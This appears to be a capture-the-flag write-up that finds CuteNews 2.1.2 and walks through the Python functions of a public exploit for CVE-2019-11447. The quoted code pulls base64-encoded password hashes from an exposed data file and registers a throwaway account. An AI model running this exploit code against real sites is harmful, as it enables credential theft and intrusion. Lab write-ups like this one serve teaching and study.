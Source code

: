 Observing the footer, we get `CuteNews` and searching on google tells us that it is a news/content management system. The version 2.1.2 is vulnerable to RCE (CVE-2019-11447).

The public exploit for the same is available at https://www.exploit-db.com/exploits/48800

Let's understand the exploit here:

#### Understanding the Exploit (CVE-2019-11447) <a name="understanding-exploit">

There are 3 major functions in the python exploit:

extract_credentials

```python

def extract_credentials():
    global sess, ip
    url = f"{ip}/CuteNews/cdata/users/lines"
    encoded_creds = sess.get(url).text
    buff = io.StringIO(encoded_creds)
    chash = buff.readlines()
    if "Not Found" in encoded_creds:
            print ("[-] No hashes were found skipping!!!")
            return
    else:
        for line in chash:
            if "<?php die('Direct call - access denied'); ?>" not in line:
                credentials = b64decode(line)
                try:
                    sha_hash = re.search('"pass";s:64:"(.*?)"', credentials.decode()).group(1)
                    print (sha_hash)
                except:
                    pass
```

This part of exploit establishes a session with the given URL and looks for the path `/CuteNews/cdata/users/lines`, this path is where there are base64 encoded credentials stored in `CuteNews 2.1.2`. After it gets the encoded creds, it tries to base64 decode it and prints it in simple and readable form. The variable name suggests that the decoded credentials are not plain text but are SHA hashed (SHA256 to be precise).

---

register
```python


def register():
    global sess, ip
    userpass = "".join(random.SystemRandom().choice(string.ascii_letters + string.digits ) for _ in range(10))
    postdata = {
        "action" : "register",
        "regusername" : userpass,
        "regnickname" : userpass,
        "regpassword" : userpass,
        "confirm" : userpass,
        "regemail" : f"{userpass}@hack.me"
    }
    register = sess.post(f"{ip}/CuteNews/index.php?register", data = postdata, allow_redirects = False)
    if 302 == register.status_code:
        print (f"[+] Registration successful with username: {userpass} and password: {userpass}")
    else:
        sys.exit()
```
